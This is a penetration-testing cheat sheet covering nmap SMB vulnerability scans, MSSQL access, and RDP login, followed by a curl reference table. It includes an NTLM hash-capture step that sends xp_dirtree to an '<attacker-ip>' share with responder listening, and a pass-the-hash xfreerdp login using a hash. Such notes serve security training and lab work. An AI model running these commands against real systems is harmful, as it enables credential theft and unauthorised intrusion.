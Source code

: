 

## Windows SMB enumeration
* nmap - SMB Vulnerabilities on Windows
```
nmap -p 445 --script smb-vuln-ms06-025 target-IP
nmap -p 445 --script smb-vuln-ms07-029 target-IP
nmap -p 445 --script smb-vuln-ms08-067 target-IP
nmap -p 445 --script smb-vuln-ms10-054 target-IP
nmap -p 445 --script smb-vuln-ms10-061 target-IP
nmap -p 445 --script smb-vuln-ms17-010 target-IP
```
## MS SQL
* Connect with the db with mssqlclient - github [link](https://github.com/SecureAuthCorp/impacket/blob/master/examples/mssqlclient.py)
```
python3 mssqlclient.py -windows-auth user@10.10.10.125
```

* dump mssql user hash with `responder`

`target`
```
SQL> xp_dirtree "\\<attacker-ip>\anything\"
```
`attacker`
```
root@kali:~# responder -I tun0
```

## xfreerdp
* login with the user hash
```
xfreerdp /u:user /d:domain /pth:011AD41795657A8ED80AB3FF6F078D03 /v:10.5.23.42
```

* login with the user password
```
xfreerdp /u:user /d:domain /p:password /v:10.5.23.42
```
-----------------------------------------------------------------------------------------------------------
# cURL Cheat Sheet

| **Command** | **Description** |
| --------------|-------------------|
| `curl -h` | cURL help menu |
| `curl inlanefreight.com` | Basic GET request |
| `curl -s -O inlanefreight.com/index.html` | Download file |
| `curl -k https://inlanefreight.com` | Skip HTTPS (SSL) certificate validation |
| `curl inlanefreight.com -v` | Print full HTTP request/response details |
| `curl -I https://www.inlanefreight.com` | Send HEAD request (only prints response headers) |
| `curl -i https://www.inlanefreight.com` | Print response headers and response body |
| `curl https://www.inlanefreight.com -A 'Mozilla/5.0'` | Set User-Agent header |
| `curl -u admin:admin http://<SERVER_IP>:<PORT>/` | Set HTTP basic authorization credentials |
| `curl  http://admin:admin@<SERVER_IP>:<PORT>/` | Pass HTT basic authorization credentials in the URL |
| `curl -H 'Authorization: Basic YWRtaW46YWRtaW4=' http://<SERVER_IP>:<PORT>/` | Set request header |